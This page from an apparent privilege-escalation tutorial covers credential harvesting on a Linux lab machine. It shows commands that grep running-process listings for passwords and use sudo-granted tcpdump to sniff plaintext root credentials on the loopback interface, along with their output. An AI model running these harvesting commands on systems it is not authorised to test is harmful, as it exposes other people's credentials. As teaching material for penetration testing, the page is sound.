

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Service Footprints

System **daemons** are Linux services that are spawned at boot time to perform specific operations without any need for user interaction. Linux servers are often configured to host numerous daemons, like SSH, web servers, and databases, to mention a few.

System administrators often rely on custom daemons to execute ad-hoc tasks and they sometimes neglect security best practices.

## Credential Harvesting

### Process List

In some lucky instances it is possible to harvest credentials directly from the list of running processes.

In this instance the `watch ... ps` command will be used to continuously list running processes and feed their names to `grep` to be filtered to only processes whose names contain "`pass`"

```shell-session
joe@debian-privesc:~$ watch -n 1 "ps -aux | grep -i pass"
```

This results in a the screen below. In this instance, there happens to be a process running with credentials in it:

<figure><figcaption><p>Active process with credentials</p></figcaption></figure>

### Network Interception

A preliminary check that is always worth running is to see whether the current user has permissions to run `tcpdump`.

`tcpdump` is the de-facto standard tool for packet capture. It **requires administrative permissions** because it operates on [raw sockets](https://man7.org/linux/man-pages/man7/raw.7.html). That said, it is fairly common for IT user accounts to be given special permission to run `tcpdump` via `sudo`:

```shell-session
joe@debian-privesc:~$ sudo -l
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
    
joe@debian-privesc:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:86:d3:e5 brd ff:ff:ff:ff:ff:ff
    inet 192.168.242.214/24 brd 192.168.242.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:86:3f:2e brd ff:ff:ff:ff:ff:ff
    inet 172.16.182.214/24 brd 172.16.182.255 scope global ens224
       valid_lft forever preferred_lft forever
```

In this instance, the user was found (via `sudo -l`) to be able to run tcpdump with elevated privileges. The network interfaces were then listed via `ip a` to help the attacker target the tool.

Given that the ssh connections found [earlier](service-footprints.md#process-list) were occurring at 127.0.0.1 the loopback (`lo`) interface seems most promising for targeting.

With that decided, `tcpdump` can be launched with the following command:

```
sudo tcpdump -i lo -c 500 -A | grep -i pass
```

* `-i` indicates the interface
* `-c` stops tcpdump after a certain number of packets are captured (in this example it was just done to give an upper limit and clean output)
* `-A` prints each captured packet as ASCII text
* All of the captured packets are then piped (`|`) into `grep` and searched for the string "`pass`"

In this example, the resulting output was quite helpful:

```shell-session
joe@debian-privesc:~$ sudo tcpdump -i lo -A -c 500 | grep -i pass
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
.dc..dc.user:root,pass:lab -
.d...d..user:root,pass:lab -
.d.z.d.yuser:root,pass:lab -
.e!..e!.user:root,pass:lab -
.ea/.ea.user:root,pass:lab -
.e.~.e.~user:root,pass:lab -
.e...e..user:root,pass:lab -
.f.3.f.3user:root,pass:lab -
.f^z.f^yuser:root,pass:lab -
500 packets captured
1002 packets received by filter
0 packets dropped by kernel
.f...f..user:root,pass:lab -
```

It appears the `root` SSH credentials were in plaintext inside the captured packets. While obtaining plaintext `root` credentials will not always be this easy, this serves as an example of the techniques involved.
